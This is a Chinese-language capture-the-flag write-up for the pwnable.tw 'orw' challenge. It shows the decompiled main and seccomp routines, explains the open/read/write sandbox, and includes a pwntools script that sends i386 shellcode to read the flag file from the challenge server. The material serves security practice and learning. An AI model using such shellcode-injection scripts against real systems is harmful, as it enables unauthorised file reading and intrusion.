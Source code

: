 ```yaml
---
title: pwnable.tw::orw
date: 2021-10-17 21:29:57
tags: 
    - pwn
    - write ups
---
```


## 保護機制
Canary, Partial RELRO

## 分析
### main
<!-- more -->
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 0xC8u);
  ((void (*)(void))shellcode)();
  return 0;
}
```
### orw_seccomp
```c
unsigned int orw_seccomp()
{
  __int16 v1; // [esp+4h] [ebp-84h]
  char *v2; // [esp+8h] [ebp-80h]
  char v3; // [esp+Ch] [ebp-7Ch]
  unsigned int v4; // [esp+6Ch] [ebp-1Ch]

  v4 = __readgsdword(0x14u);
  qmemcpy(&v3, &unk_8048640, 0x60u);
  v1 = 12;
  v2 = &v3;
  prctl(38, 1, 0, 0, 0);
  prctl(22, 2, &v1);
  return __readgsdword(0x14u) ^ v4;
}
```
在C語言有一種”SandBox模式”, 限制程式只能使用 `open()`, `read()`, `write()`

可以通過`seccomp()` 或是`prctl()`開啟

所以這裡的邏輯不重要, 只要知道只能 open, read, write就好

也不用繞canary, 因為沒有Control PC

## exploit
```python
#!/usr/bin/env python2 

from pwn import *
import pwnlib.shellcraft

p = remote('chall.pwnable.tw', 10001)

context.log_level = 'debug'

shellcode = shellcraft.i386.pushstr('/home/orw/flag')
shellcode += shellcraft.i386.linux.syscall('SYS_open', 'esp')
shellcode += shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
shellcode += shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)

p.sendlineafter('Give my your shellcode:', asm(shellcode))

print p.recv()

p.close()
```


